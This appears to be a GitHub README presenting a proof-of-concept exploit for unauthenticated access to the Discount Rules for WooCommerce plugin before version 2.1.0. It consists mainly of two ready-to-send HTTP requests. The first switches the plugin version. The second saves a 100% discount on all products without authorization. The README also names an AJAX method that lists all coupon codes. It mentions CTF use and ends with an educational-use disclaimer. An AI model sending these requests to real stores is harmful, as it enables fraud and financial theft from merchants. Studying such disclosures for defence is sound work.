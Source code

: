 <meta name="author" content="fromkhabar">
<meta name="description" content="Multiple-vulnerabilities-woo-discount-rules-2.1.0-PoC">
<meta name="copyright" content="Your name 2022">
<meta name="keywords" content="woo-discount-rules-2.1.0, PoC, WooCommerce 2.1.0">

# Multiple-vulnerabilities-woo-discount-rules-2.1.0-PoC
Proof-of-Concept for Discount Rules for WooCommerce &lt; 2.1.0 authorization issues



May be useful in CTF because it's very old.

## Info
The vulnerability makes it possible to send requests to set up discounts and receive coupons without authorization.
More details here: https://patchstack.com/articles/multiple-vulnerabilities-in-discount-rules-for-woocommerce-plugin/

Most interesting AJAX methods are:
- wdr_ajax_cart_coupon - Retrieve the list of all coupon codes
- wdr_ajax_save_rule - Save a discount rule

## Usage
### Firstly, we need to send a request to enable the second version of the vulnerable plugin:
```
POST /?awdr_switch_plugin_to=v2 HTTP/1.1
Host: wp.example.com
Content-Length: 0
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://wp.example.com
Referer: http://wp.example.com/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ru;q=0.8
Cookie: wordpress_test_cookie=WP+Cookie+check; woocommerce_items_in_cart=1; wp_woocommerce_session_40ae737bee04d7f05dfc6771baa425d6=878fc0c71d51694db644a581fd114f1b%7C%7C1698923490%7C%7C1698919890%7C%7Cbe0053b07e3673f00828a41bbb399000; woocommerce_cart_hash=75a9c8b0a8eb0d3560d5d875dbbdeb45
Connection: close
```
You can make sure that the version has been changed by searching for the answer to this request for the phrase “v2”; it should find several occurrences, but nothing will be found for the phrase “v1”.
![set_and_check_version_to_v2](https://github.com/fromkhabar/Multiple-vulnerabilities-woo-discount-rules-2.1.0-PoC/assets/158577109/4ca44344-dac2-4406-a892-39c70374212a)


### Now we are able to set any discount on all products
- enabled=1 - turn on discount
- filters[1][type]=all_products - to all products
- product_adjustments[type]=percentage - percent discount
- product_adjustments[value]=100 - discount value
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: wp.example.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ru;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 409

title=eeeee&enabled=1&current_page=1&discount_type=wdr_simple_discount&action=wdr_ajax&method=save_rule&awdr_nonce=2daef3dee8&wdr_save_close=1&edit_rule=&filters%5B1%5D%5Btype%5D=all_products&product_adjustments%5Btype%5D=percentage&product_adjustments%5Bvalue%5D=100&product_adjustments%5Bcart_label%5D=&additional%5Bcondition_relationship%5D=and&usage_limits=&date_from=&date_to=&wdr_ajax_select2=121bf69698
```
![set_discount](https://github.com/fromkhabar/Multiple-vulnerabilities-woo-discount-rules-2.1.0-PoC/assets/158577109/b39b4286-bf56-4f86-b08f-0379e69b7155)


Vuln was fixed in version 2.1.0

# Disclamer
This PoC is only meant for educational purposes. You are responsible for your own actions.
